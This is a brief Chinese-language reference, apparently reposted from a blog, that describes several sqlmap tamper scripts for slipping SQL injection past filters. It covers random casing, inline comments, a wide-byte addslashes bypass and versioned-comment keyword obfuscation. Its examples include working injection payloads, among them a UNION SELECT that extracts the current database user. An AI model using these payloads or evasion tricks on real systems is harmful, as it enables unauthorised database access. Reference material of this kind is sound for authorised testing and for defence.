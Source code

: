 
randomcase

随机大小写。

Example:
* Input: 'INSERT'
* Output:  'INseRt'


unmagicquotes

宽字符绕过 GPC addslashes。

Example:
* Input: "1' AND 1=1"
* Output:  '1%bf%27-- '


randomcomments

用 /*...*/ 分割 SQL 关键字。

* Input: 'INSERT'
* Output:  'I/**/N/**/SERT'


halfversionedmorekeywords

关键字前加注释。

* Input: "value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa"
* Output: "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"


本文转自 http://www.chuhades.com/post/19590b_4cc51f
